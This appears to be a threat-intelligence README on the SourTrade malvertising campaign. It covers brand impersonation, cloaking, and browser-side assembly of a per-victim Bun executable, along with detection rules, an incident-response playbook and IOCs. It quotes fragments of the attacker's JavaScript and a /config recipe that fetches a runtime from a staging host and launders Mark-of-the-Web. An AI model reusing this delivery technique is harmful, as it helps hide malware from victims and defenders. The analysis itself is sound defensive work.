

# SourTrade: malvertising that assembles a unique Windows executable inside the victim's browser

## TL;DR

Confiant published on 2026-07-23 (updated 2026-07-30) a detailed teardown of **SourTrade**, a persistent malvertising cluster that has run paid ads since late 2024 impersonating **TradingView, Solana and Luno** to reach retail traders and crypto investors across 12 countries in 25 languages, concentrated in APAC and LATAM. What makes it technically distinct is that the landing page does **not** deliver a finished malware file: it registers a `ServiceWorker` and a `SharedWorker`, requests a `/config` endpoint that returns **build instructions** (a `template` byte-copy recipe, a per-session AES-CTR seed/size, and a `standaloneUrl`), fetches a **clean Bun runtime** from a separate staging host, and assembles a unique Windows PE **in browser memory** whose malicious `.bun` section carries JavaScriptCore bytecode. The finished executable never crosses the network, so file-fingerprinting sees only clean components and per-victim AES-CTR randomization gives every download a different hash. It matters today because a fresh wave of technical write-ups (Confiant, The Hacker News, Infosecurity Magazine, Ankura CTIX 2026-07-28, SOC Prime) re-surfaced the campaign and documented the current Bun-based, same-origin Mark-of-the-Web variant that supersedes the earlier StreamSaver.js delivery. There is no CVE and no stable hash to block: detection moves to the split delivery (`/config` plus a second-domain Bun fetch), the Bun single-file executable landing in a browser download folder, and the same-origin MotW anomaly.

## Attribution and confidence

Confiant tracks **SourTrade** as a **persistent malvertising cluster**, not a named threat-intel actor; attribution to a specific group is **not asserted** and is therefore **low**. The *clustering* into one operation is **medium-to-high**, anchored on a consistent brand-impersonation set (TradingView/Solana/Luno), a shared browser-side assembly model, cross-linked ad-tech tracking (Google Ads, Meta/Facebook pixel, Twitter/X pixel embedded in the same money pages), and the recurring StreamSaver-then-Bun delivery lineage that Confiant and Bitdefender have followed since 2024. Motivation is financial: theft targeting cryptocurrency and trading users.

| Overlap axis | Observation | Confidence |
|---|---|---|
| Delivery model | Browser-side assembly (ServiceWorker + SharedWorker + `/config` recipe + Bun runtime) producing per-victim PEs | high |
| Brand set | TradingView + Solana + Luno replicas, cloaked money-vs-white pages | high |
| Ad-tech fingerprint | Google Ads, Meta/Facebook and Twitter/X tracking co-located on the money pages | medium |
| Named actor | None asserted by Confiant | low |

**Genealogy with previous repo cases.** This is the repo's first case on **browser-assembled / in-memory-compiled malware** and its first on **malvertising as the primary delivery** rather than a post-compromise payload. It is distinct from the repo's other crypto-targeting stealers: the AMOS `amos-atomic-macos-stealer-maas` cluster and the DPRK-linked stealer clusters ship a *finished* signed or packed binary, whereas SourTrade never puts a finished binary on the wire. It also differs from Day 95's V25 XMRig (fileless *miner* that self-unlinks on Linux) - SourTrade is a Windows stealer whose "fileless" property is on the delivery side (the executable is built client-side) rather than at runtime. The Day 94 Joyfill npm case also used novel infrastructure (a blockchain dead-drop C2) but delivered its payload through a package registry; SourTrade delivers through paid ads and browser primitives.

## Kill chain — summary table

| Stage | MITRE | Detail |
|---|---|---|
| Malvertising impression | T1583.008 Acquire Infrastructure: Malvertising | Paid display ads impersonating TradingView/Solana/Luno on Google, Meta and X reach retail traders. |
| Stage delivery infrastructure | T1608.001 Stage Capabilities: Upload Malware | Landing domains, `/config` recipe endpoint and a separate Bun staging host are pre-positioned. |
| Cloaked drive-by landing | T1189 Drive-by Compromise | Cloaking kit fingerprints the visitor; analysts/bots get a white page, victims get a money page. |
| Brand impersonation | T1656 Impersonation | Money page is a pixel-accurate replica of a trusted trading/crypto platform. |
| Browser delivery setup | T1059.007 Command and Scripting Interpreter: JavaScript | React JS registers `sw.js` ServiceWorker and a blob-built SharedWorker; keep-alive pings the stream. |
| Assembly instructions | T1140 Deobfuscate/Decode Files or Information | `/config` returns a `template` recipe, seed/size and `standaloneUrl` instead of a file. |
| In-browser encrypted assembly | T1027.013 Obfuscated Files or Information: Encrypted/Encoded File | AES-CTR bytes generated locally; per-session seed rotates the output hash. |
| Runtime retrieval | T1105 Ingress Tool Transfer | Clean Bun runtime fetched (gzip) from the separate staging host `purelogicbox[.]org/static/*.exe`. |
| Same-origin MotW download | T1553.005 Subvert Trust Controls: Mark-of-the-Web Bypass | Hidden iframe + ServiceWorker attachment records the landing host in Zone.Identifier, hiding the staging origin. |
| User execution | T1204.002 User Execution: Malicious File | Victim runs the assembled Bun single-file EXE; the Bun interpreter executes the `.bun` `app.js` bytecode. |



The diagram runs the victim browser/host down the left lane (ad impression -> cloaked money page -> ServiceWorker/SharedWorker setup -> `/config` recipe -> in-browser PE assembly -> same-origin MotW download -> user execution) and the operator infrastructure down the right lane (ad platforms, ~96 rotating money-page domains, the `/config` endpoint, the Bun staging host, the `.bun` JSC payload, and the crypto/trader-theft objective). The red (critical) anchors are the `/config` build recipe, the in-browser PE assembly, and the same-origin Mark-of-the-Web download - the three points where behavioural detection beats any static hash.

## Stage-by-stage detail

### 1. Malvertising impression and staged infrastructure (T1583.008, T1608.001)

SourTrade buys display ads in English plus the local language of the targeted geo, impersonating **TradingView, Solana and Luno**. Confiant found Google Ads conversion logic, Meta/Facebook pixel beacons and Twitter/X pixel event logic co-located in the malicious pages, indicating the operator measures and optimizes victim traffic across all three ad ecosystems. The delivery chain (landing domains, the `/config` endpoint, and a separate Bun-runtime staging host) is pre-positioned before any victim clicks.

### 2. Cloaked drive-by landing and brand impersonation (T1189, T1656)

Landing pages run a **cloaking kit** that fingerprints each visitor. Researchers and automated systems are served a benign "white page"; only visitors that look like valid victims receive the "money page", a pixel-accurate replica of the impersonated platform. Mixing a charting tool (TradingView), a layer-1 network (Solana) and a fiat-to-crypto gateway (Luno) lets the operator target the full retail-trader lifecycle - analyzing, investing and cashing out.

### 3. Browser delivery setup: ServiceWorker + SharedWorker (T1059.007)

Without the user clicking "download", the money page's React JavaScript prepares a managed download flow:

```javascript
if (!("serviceWorker" in navigator)) { throw new Error("Service workers are not supported"); }
await navigator.serviceWorker.register("/sw.js", { scope: "/" });
await navigator.serviceWorker.ready;
setInterval(() => controller.postMessage({ type: "streamsaver:ping" }), 25000);
```

`sw.js` keeps an in-memory map of download streams and intercepts same-origin fetches to return an assembled stream as an attachment. A `SharedWorker` is then built from an **in-page JavaScript blob** (via `URL.createObjectURL(new Blob([...], {type:"application/javascript"}))`) rather than a fetched worker URL - so the assembly logic never appears as its own network request.

### 4. `/config` returns a build recipe, not a file (T1140)

With visitor fingerprint data attached, the SharedWorker requests `/config`, which returns assembly instructions:

```json
{
  "random": { "seed": "w3q8pSVQ4YCSsRg6GUI7bQ==", "size": 665136399 },
  "template": [ "TVp4AAEAAAAE...", [0, 1024, 114954254], [1, 145, 665136254] ],
  "standaloneUrl": "https://purelogicbox[.]org/static/AAAA...zo.exe"
}
```

The `template` is a byte-copy recipe: literal base64 blobs are the PE header, section table and the malicious `.bun` section (entries 07-36); the numeric triples are copy operations pulling ranges from the Bun runtime and the AES-CTR stream. Rotating the seed/size yields a different final hash for every session.

### 5. In-browser encrypted assembly and runtime retrieval (T1027.013, T1105)

The browser fetches and decompresses the clean **Bun** runtime named in `standaloneUrl`, generates the per-session AES-CTR byte stream locally, then walks the template to assemble the final PE in memory:

```javascript
let r = await R, i = [await U(r.standaloneUrl)];      // fetch + gunzip clean Bun runtime
if (r.random) { i.push(I(r.random.seed, r.random.size)); } // per-victim AES-CTR stream
let a = new h(r.template);                            // assemble by template order
return a.start(i), a.readable;                        // expose as a ReadableStream
```

The `.bun` PE section is the actor's payload container; it holds JavaScriptCore bytecode for `app.js`, which the Bun interpreter executes when the assembled file runs.

### 6. Same-origin download and Mark-of-the-Web manipulation (T1553.005)

The assembled stream is handed to the stage-1 ServiceWorker and a hidden iframe navigates to a **same-origin** URL, so the browser records the download as coming from the landing domain:

```javascript
const response = new Response(stream, {
  headers: {
    "Content-Type": "application/octet-stream; charset=utf-8",
    "Content-Disposition": "attachment; filename*=UTF-8''" + fileName
  }
});
```

The file's Mark-of-the-Web (`Zone.Identifier`) therefore records the **same-origin** landing URL, even though the Bun runtime component came from the separate staging domain - which is *not* reflected in the MotW. Earlier variants (tracked through 2026-04-30) instead recorded a GitHub-hosted StreamSaver.js helper path (`jimmywarting.github.io/StreamSaver.js/...`).

### 7. User execution (T1204.002, T1059.007)

The victim runs the assembled Bun single-file executable from their download folder. The embedded Bun interpreter executes the `.bun` `app.js` bytecode; the objective is theft of trading and cryptocurrency assets (wallet and browser data), consistent with the impersonated-brand lure.

## RE notes

| Component | Identity | Lang / Format | Notes |
|---|---|---|---|
| Assembled payload | per-victim SHA256 (e.g. `9a29d26b...b2ca1b`) | Windows PE (Bun single-file exe) | `.bun` section holds JSC bytecode; per-session AES-CTR = unique hash |
| Bun runtime | `standaloneUrl` -> `purelogicbox[.]org/static/*.exe` | Clean Bun executable, gzip in transit | Legitimate interpreter; malice lives only in the appended `.bun` section |
| Landing assembler | in-page React JS + `sw.js` + blob SharedWorker | JavaScript | `streamsaver:open`/`streamsaver:ping`, `standaloneUrl`, `/config` recipe |

Anti-analysis rests on three pillars: **cloaking** (analyst/bot -> white page), **decomposition** (no finished binary transits the network; components are individually clean), and **per-victim encryption** (AES-CTR keyed off a rotating server seed defeats static-hash detection). The durable structural anchor is the Bun single-file format itself - a `.bun` PE section plus `$bunfs`/`Bun v` runtime strings in a binary that arrived through a browser download.

## Detection strategy

### Telemetry that matters

- **Windows endpoint (Sysmon / Defender):** process creation of a Bun single-file EXE from `\Downloads\` or `\Temp\` (EID 1 / `DeviceProcessEvents`, `ProcessVersionInfo*` = Bun/Oven); file creation of that `.exe` plus its `Zone.Identifier` ADS (EID 11/15 / `DeviceFileEvents` with `FileOriginUrl`).
- **Browser / proxy / DNS:** resolution of money-page domains and the Bun staging host; a `/config` request followed by a `.exe` GET from a *different* domain in the same session (`DeviceNetworkEvents`, proxy logs, TLS SNI).
- **ServiceWorker caveat:** native endpoint telemetry rarely logs ServiceWorker registration, so anchor on the *download artifact* (Bun EXE + MotW origin) and the *network split*, not on the in-browser events themselves.

### Detection coverage

| Engine | File | Logic |
|---|---|---|
| Sigma | `sigma/dns_sourtrade_landing_and_bun_staging.yml` | DNS query to the Bun staging host or known money-page domains. |
| Sigma | `sigma/file_event_motw_exe_from_lookalike_or_streamsaver.yml` | `.exe:Zone.Identifier` ADS whose HostUrl is a lookalike-brand TLD or StreamSaver host. |
| Sigma | `sigma/proc_creation_bun_single_file_exe_from_download.yml` | Bun/Oven PE version info on an `.exe` executed from a browser download path. |
| KQL | `kql/defender_sourtrade_infra_egress.kql` | Egress to money-page domains or the staging `/static/*.exe` Bun fetch. |
| KQL | `kql/defender_bun_exe_from_download_path.kql` | Bun single-file EXE launched from Downloads/Temp. |
| KQL | `kql/defender_downloaded_exe_motw_lookalike_origin.kql` | Downloaded `.exe` whose MotW origin/referrer is a family TLD or StreamSaver host. |
| YARA | `yara/sourtrade_bun_assembled_and_landing.yar` | Assembled Bun PE (`.bun`/`$bunfs`/`app.js`) and the landing-page assembler JS. |
| Suricata | `suricata/sourtrade_malvertising.rules` | Staging-host DNS/TLS/HTTP (`/static/*.exe`), `/config` request, and money-page DNS/TLS. |

### Threat hunting hypotheses

- **H1 (`hunts/peak_h1_bun_single_file_exe_in_downloads.md`):** Bun single-file executables (`.bun`/`$bunfs` markers, Bun/Oven version info) sitting in user download folders and run interactively.
- **H2 (`hunts/peak_h2_motw_lookalike_brand_download.md`):** downloaded `.exe` whose Mark-of-the-Web origin is a lookalike-brand landing domain (or a StreamSaver.js helper URL for older variants).
- **H3 (`hunts/peak_h3_split_delivery_config_and_staging.md`):** a `/config` request to a landing domain followed by a `.exe` fetch from a *different* staging domain within one session.

## Incident response playbook

### First 60 minutes (triage)

1. Confirm the suspect `.exe` in the user's Downloads/Temp is a **Bun single-file executable** (look for `.bun` section, `$bunfs`, `Bun v`).
2. Read its `Zone.Identifier` to capture the MotW **HostUrl/ReferrerUrl** (the landing domain).
3. Pull proxy/DNS for that host in the session and look for the paired `/config` request and the second-domain `.exe` (Bun runtime) fetch.
4. Determine whether the payload **executed** (process creation from the download path) and whether it touched browser profiles or wallet extensions.
5. If executed, treat browser-stored crypto/exchange credentials and wallet material as compromised and begin credential rotation.

### Artifacts to collect

| Artifact | Path | Tool | Why |
|---|---|---|---|
| Assembled payload | `%USERPROFILE%\Downloads\*.exe` | EDR / manual copy | Extract the `.bun` section and `app.js` bytecode. |
| MotW stream | `<file>.exe:Zone.Identifier` | `Get-Content -Stream` | Records the landing-domain origin (T1553.005). |
| Browser download history | browser profile SQLite | forensic browser tools | Ties the download to the ad-referral and landing host. |
| Proxy/DNS session | proxy logs, DNS resolver logs | SIEM | Reveals the `/config` + staging split delivery. |
| Wallet/browser stores | extension + profile paths | EDR | Scope credential/wallet exposure. |

### IR queries and commands

```powershell
# Is a downloaded EXE a Bun single-file executable, and what is its MotW origin?
Get-ChildItem "$env:USERPROFILE\Downloads\*.exe" | ForEach-Object {
  $bun = Select-String -Path $_.FullName -Pattern '\$bunfs','\.bun' -List -ErrorAction SilentlyContinue
  $zone = Get-Content -Path $_.FullName -Stream Zone.Identifier -ErrorAction SilentlyContinue
  [pscustomobject]@{ File=$_.Name; Bun=[bool]$bun; Zone=($zone -join '; ') }
}
```

```kql
// Correlate a /config request with a second-domain .exe fetch in the same session
DeviceNetworkEvents
| where RemoteUrl has "/config" or (RemoteUrl has "/static/" and RemoteUrl endswith ".exe") or RemoteUrl has "purelogicbox"
| summarize urls = make_set(RemoteUrl, 50) by DeviceId, bin(Timestamp, 10m)
```

```bash
# Proxy-log triage for the split-delivery pattern
grep -E '/config|/static/.*\.exe' proxy.log | sort
```

### Containment, eradication, recovery

- **Contain:** block the staging host and observed money-page domains at DNS/proxy; quarantine the assembled EXE; isolate the host if the payload executed.
- **Eradicate:** remove the payload; there is no service/driver persistence in the delivery chain, but assume the stealer already exfiltrated - rotate crypto/exchange credentials, revoke exchange API keys, and move wallet funds from any seed exposed on the host.
- **What NOT to do:** do **not** rely on hash blocklisting the sample - per-victim AES-CTR randomization makes each hash unique; do not assume a "clean" network capture of the downloaded runtime means the endpoint is clean (the malice was assembled locally).
- **Exit criteria:** payload removed, credentials/keys rotated, wallets migrated, and no further egress to SourTrade infrastructure.

### Recovery validation

Confirm no Bun single-file EXEs remain in user download/temp paths, no further DNS/TLS to the staging or money-page domains, rotated exchange credentials/API keys are in force, and (where applicable) funds moved off any exposed seed phrase. Re-image if wallet/keychain compromise cannot be excluded.

## IOCs

Top indicators (full list in `iocs.csv`, 112 rows). Money-page domains rotate and decay - re-validate before permanent blocking.

| Type | Value | Context | Confidence | Source |
|---|---|---|---|---|
| sha256 | `9a29d26b...b2ca1b` | Assembled Bun single-file EXE (per-victim hash) | medium | Confiant 2026-07-23 |
| sha256 | `05c0d056...0120f6` | Assembled Bun single-file EXE (per-victim hash) | medium | Confiant 2026-07-23 |
| sha256 | `ad542ed4...2f31976` | Assembled Bun single-file EXE (per-victim hash) | medium | Confiant 2026-07-23 |
| domain | `purelogicbox[.]org` | Bun-runtime staging host (`/static/*.exe`) | high | Confiant 2026-07-23 |
| domain | `asiadataintelligencelab[.]digital` | Money-page landing domain | medium | Confiant 2026-07-23 |
| domain | `cognitionpipeline[.]digital` | Money-page landing domain | medium | Confiant 2026-07-23 |
| domain | `brainyclevercore[.]digital` | Money-page landing domain | medium | Confiant 2026-07-23 |
| url | `jimmywarting.github.io/StreamSaver.js/nwitassistnow.com/...` | Historical earlier-variant MotW artifact | medium | Confiant 2026-07-23 |
| note | `.bun` PE section + `$bunfs` | Bun single-file structure holding JSC `app.js` payload | high | Confiant 2026-07-23 |
| note | `/config` recipe + `standaloneUrl` | Assembly-instruction response (not a file) | high | Confiant 2026-07-23 |

No CVE is in scope for this case (malvertising + browser-primitive abuse, not a software vulnerability), so no CISA KEV cross-reference applies and no `kev.md` is generated.

## Secondary findings

- **Decomposition beats fingerprinting by construction.** SourTrade's core insight is that if no finished binary ever traverses the network, file-fingerprinting - the industry's most widely deployed control - has nothing malicious to match. Each component (Bun runtime, template blobs, AES-CTR bytes) is individually clean; only the browser-side assembly produces the malware.
- **Mark-of-the-Web can be laundered without a bypass exploit.** By assembling and serving the file same-origin via a ServiceWorker, the operator makes the MotW record the (attacker-controlled) landing domain while hiding that the runtime came from a separate staging host - a provenance-laundering technique that needs no CVE, only browser primitives.
- **Bun as a living-off-the-land runtime.** Abusing a legitimate JavaScript runtime (Bun) as the interpreter shell for JSC bytecode means the "malware" is mostly a clean, popular tool plus a small appended section - reputation-based and signature-based controls under-weight it, and the durable anchor becomes the single-file structure, not a family signature.

## Pedagogical anchors

- When a payload is **assembled client-side**, network payload inspection and hash reputation are structurally blind; move detection to the **download artifact** (unusual runtime format in a browser folder) and the **delivery shape** (split `/config` + second-domain fetch).
- **Per-victim randomization** (here AES-CTR keyed off a rotating server seed) turns "the hash" into a non-durable IOC. Treat published sample hashes as *observed instances*, and prioritize structural/behavioural rules.
- **Provenance signals can be forged with legitimate browser features.** A same-origin ServiceWorker download makes Mark-of-the-Web attest to the wrong origin - trust MotW as a hint, not proof, and correlate it against where the *components* actually came from.
- **Malvertising is an initial-access broker for the whole trader lifecycle.** Impersonating a charting tool, a layer-1 chain and a fiat gateway simultaneously lets one operator catch victims at analysis, investment and cash-out - defender awareness (and takedown requests to Google/Meta/X) belong in the response.

## What's in this folder

| File | Purpose | Link |
|---|---|---|
| README.md | This analysis (15 sections). | [README.md](./README.md) |
| kill_chain.svg | Two-lane kill-chain diagram (Template A, crypto-defi accent). | [kill_chain.svg](./kill_chain.svg) |
| sigma/dns_sourtrade_landing_and_bun_staging.yml | DNS to money-page or Bun staging infrastructure. | [dns_sourtrade_landing_and_bun_staging.yml](./sigma/dns_sourtrade_landing_and_bun_staging.yml) |
| sigma/file_event_motw_exe_from_lookalike_or_streamsaver.yml | MotW ADS origin on a lookalike-brand or StreamSaver host. | [file_event_motw_exe_from_lookalike_or_streamsaver.yml](./sigma/file_event_motw_exe_from_lookalike_or_streamsaver.yml) |
| sigma/proc_creation_bun_single_file_exe_from_download.yml | Bun single-file EXE executed from a browser download path. | [proc_creation_bun_single_file_exe_from_download.yml](./sigma/proc_creation_bun_single_file_exe_from_download.yml) |
| kql/defender_sourtrade_infra_egress.kql | Egress to SourTrade landing/staging infrastructure. | [defender_sourtrade_infra_egress.kql](./kql/defender_sourtrade_infra_egress.kql) |
| kql/defender_bun_exe_from_download_path.kql | Bun EXE launched from Downloads/Temp. | [defender_bun_exe_from_download_path.kql](./kql/defender_bun_exe_from_download_path.kql) |
| kql/defender_downloaded_exe_motw_lookalike_origin.kql | Downloaded EXE with a lookalike-brand MotW origin. | [defender_downloaded_exe_motw_lookalike_origin.kql](./kql/defender_downloaded_exe_motw_lookalike_origin.kql) |
| yara/sourtrade_bun_assembled_and_landing.yar | Assembled Bun PE and landing-page assembler JS. | [sourtrade_bun_assembled_and_landing.yar](./yara/sourtrade_bun_assembled_and_landing.yar) |
| suricata/sourtrade_malvertising.rules | Staging/landing DNS/TLS/HTTP and `/config` request (6 sids). | [sourtrade_malvertising.rules](./suricata/sourtrade_malvertising.rules) |
| hunts/peak_h1_bun_single_file_exe_in_downloads.md | PEAK H1 - Bun single-file EXEs in download folders. | [peak_h1_bun_single_file_exe_in_downloads.md](./hunts/peak_h1_bun_single_file_exe_in_downloads.md) |
| hunts/peak_h2_motw_lookalike_brand_download.md | PEAK H2 - MotW origin on a lookalike-brand domain. | [peak_h2_motw_lookalike_brand_download.md](./hunts/peak_h2_motw_lookalike_brand_download.md) |
| hunts/peak_h3_split_delivery_config_and_staging.md | PEAK H3 - split `/config` + second-domain Bun fetch. | [peak_h3_split_delivery_config_and_staging.md](./hunts/peak_h3_split_delivery_config_and_staging.md) |
| iocs.csv | Full indicator set (112 rows). | [iocs.csv](./iocs.csv) |

## Sources

- [Confiant - SourTrade: Browser-Assembled Malware Delivered Through Malvertising](https://blog.confiant.com/p/sourtrade-browser-assembled-malware)
- [The Hacker News - Malvertising Sends Malware in Pieces, Then Makes the Browser Build the Executable](https://thehackernews.com/2026/07/malvertising-sends-malware-in-pieces.html)
- [Infosecurity Magazine - SourTrade Malvertising Campaign Secretly Builds Malware in the Browser](https://www.infosecurity-magazine.com/news/malvertising-builds-malware-in/)
- [Cyber Security News - SourTrade Malvertising Builds Unique Malware Inside Victims' Browsers](https://cybersecuritynews.com/sourtrade-malvertising-malware/)
- [Ankura CTIX FLASH Update - July 28, 2026](https://ankura.com/insights/ankura-ctix-flash-update-july-28-2026)
- [SOC Prime - SourTrade Malvertising Builds Malware in the Browser](https://socprime.com/active-threats/sourtrade-campaign-delivers-browser-assembled-malware/)
- [heise online - SourTrade: Malvertising Malware Compiled in Browser](https://www.heise.de/en/news/SourTrade-Malvertising-Malware-Compiled-in-Browser-11379174.html)
- [Bitdefender - The Scam That Won't Quit: Malicious TradingView Premium Ads Jump from Meta to Google and YouTube](https://www.bitdefender.com/en-us/blog/labs/the-scam-that-wont-quit-malicious-tradingview-premium-ads-jump-from-meta-to-google-and-youtube)
